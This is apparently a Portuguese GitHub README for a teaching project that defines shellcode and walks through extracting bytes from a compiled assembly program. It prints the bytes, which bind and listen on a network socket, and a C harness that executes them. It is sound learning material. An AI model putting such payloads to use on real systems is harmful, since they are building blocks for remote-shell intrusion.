 # Projeto Shellcode

### O que é um shellcode?
Em segurança da informação, um shellcode é um trecho de código que é usado durante a exploração de alguma vulnerabilidade.

É chamado shellcode por normalmente envolver a abertura de uma shell durante a execução, mas não é necessariamente limitado a  isso.

Nesse projeto o codigo em assembly é basicamente um socket simples.

Para criarmos um shellcode, primeiramente precisamos criar um código em assembly.
Em seguida compilamos o codigo e abrimos o executável em um debugger. Assim podemos ver os bytes que precisamos para montar o shellcode.


![Pasted image 20220620033644](https://user-images.githubusercontent.com/59076746/174547182-500b5f6f-5c1d-4525-9844-b60aa8c85998.png)



Assim temos os bytes:

``` 
\x31\xc0\x31\xdb\x31\xff\x31\xf6\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xbb\x01\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x89\xc7\x69\x00\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xbb\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x01\x57\x89\xe1\xbb\x04\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x00\x6a\x00\x57\x89\xe1\xbb\x05\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80
```

E podemos passar esses bytes para uma linguagem mais alto nível, como C.

```C
unsigned char shellcode[] = "\x31\xc0\x31\xdb\x31\xff\x31\xf6\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xbb\x01\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x89\xc7\x69\x00\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xbb\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x01\x57\x89\xe1\xbb\x04\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x00\x6a\x00\x57\x89\xe1\xbb\x05\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80";

main(int argc, char *argv[])
{
  int (*ret)() = (int(*)())shellcode;

  ret();
}

```

Ao compilar e executar esse código C temos um socket inicializado.

Em um uso real, o shellcode quase sempre é usado junto com um exploit (codigo que explora alguma falha).

<br />
<br />
<small>Fontes: https://gitbook.ganeshicmc.com/pwning/shellcode, https://en.wikipedia.org/wiki/Shellcode, https://www.exploit-db.com/shellcodes</small>
